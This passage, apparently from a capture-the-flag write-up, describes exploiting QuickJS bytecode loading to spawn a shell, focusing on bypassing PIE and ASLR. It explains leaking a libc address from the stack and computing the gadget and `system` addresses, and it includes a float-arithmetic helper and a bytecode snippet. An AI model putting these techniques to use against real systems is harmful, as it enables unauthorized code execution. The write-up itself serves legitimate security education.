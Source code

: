 And this now works! If we load the assembled bytecode using the `loadall` function, a shell opens! Unfortunately, that's only half the story, now comes the tricky part, making this work with PIE and ASLR enabled.

### Hard mode: no hard-coded addresses

To make our exploit work on the challenge server, we need to find the memory addresses at runtime, since the loading address of the code and the imported libraries can vary between runs.

The idea is simple: we just need to find one known libc address, which will allow us to calculate the address of the gadget and of `system` by simple arithmetic (since the layout of libc is known). We also need to know where the stack is, to calculate the stack addresses we use in our exploit. For libc, we can simply read the `__libc_start_call_main` return address stored on the stack at a predictable location. To do this, we can first write the value 7 (for `JS_TAG_FLOAT64`) to the word immediately after, so `get_loc` will return a 64 bit float when using it to read this address. If we don't add this tag, the returned value will be of invalid type and we won't be able to perform arithmetic with it. For the stack address, we can just use the value of `var_buf`, which we already saved.

Turns out the main issue is not getting the address, but dealing with the floats. Addresses we read and write are simply floats to our bytecode, so doing the arithmetic is actually more difficult than you might expect. We can't simply add to the floats, as the produced binary representation will not be consistent. 

Using ChatGPT, I generated the following helper function in JavaScript:

```javascript
function float_add_raw(flt, val) {
    // Create an 8-byte buffer
    const view = new DataView(new ArrayBuffer(8));

    // Set float64 into buffer
    view.setFloat64(0, flt, true); // little-endian

    // Read raw bits as 64-bit unsigned integer using BigInt
    let raw = (BigInt(view.getUint32(4, true)) << 32n) | BigInt(view.getUint32(0, true));

    // Add signed val using BigInt
    raw += BigInt(val);

    // Write back into the buffer
    view.setUint32(0, Number(raw & 0xFFFFFFFFn), true);
    view.setUint32(4, Number((raw >> 32n) & 0xFFFFFFFFn), true);

    // Read and return the new float
    return view.getFloat64(0, true);
}
```

This function takes a float `flt` and adds the int `val` to its binary representation, which is going to allow us to offset addresses stored as floats. I then compiled this function to bytecode using QuickJS's `qjsc` utility and modified my assembler to inject the function bytecode into my compiled payload. In assembly, I can now call this function like this:
```
# Push the function to the JS Stack
fclosure8 float_add_raw

# Read a float from the process stack
get_loc 17

# Set our offset
push_i32 8

# Run the function
call2

# The result is now on the JS Stack
```
